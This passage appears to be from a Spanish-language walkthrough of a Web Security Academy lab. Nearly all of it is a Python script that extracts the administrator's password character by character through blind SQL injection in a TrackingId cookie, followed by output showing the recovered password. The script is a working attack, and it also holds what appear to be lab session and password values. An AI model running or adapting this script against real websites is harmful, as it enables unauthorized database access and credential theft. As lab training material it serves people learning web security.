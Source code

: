 Creo un script en python que se encargue de aplicar la fuerza bruta

```null
#!/usr/bin/python3
from pwn import *
import requests, string, signal, sys, pdb

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

characters = string.ascii_lowercase + string.digits
main_url = "https://0a1600f9048c8f1a828e394a001300bf.web-security-academy.net/"

def MakeRequest():

    password = ""
    p1 = log.progress("Blind SQLi:")
    p2 = log.progress("Password:")

    for position in range(1, 21):

        for character in characters:

            cookies = {
                'TrackingId': "MvIdBgEfhEtivOSb' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                'session': 'tO7WFRZa7lYpzv9dCahLIysRNfM3PCjb'
            }

            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break



if __name__ == '__main__':
    MakeRequest()
```

```null
python3 /home/rubbx/Desktop/sqli_lab12.py
[▗] Blind SQLi:: MvIdBgEfhEtivOSb' and (select substring(password,20,1) from users where username='administrator')='9
[▗] Password:: gp6y8b36tslzei88mx99
```

